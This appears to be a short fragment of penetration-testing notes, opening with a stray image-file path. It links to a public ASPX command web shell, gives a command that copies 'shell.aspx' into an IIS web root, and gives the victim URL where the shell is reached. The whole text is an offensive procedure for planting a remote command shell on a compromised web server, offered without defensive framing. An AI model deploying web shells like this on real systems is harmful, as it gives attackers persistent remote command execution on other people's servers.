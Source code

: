Webshell: https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx

	move shell.aspx C:\inetpub\wwwroot\

Access shell at:

	http://[victim]/shell.aspx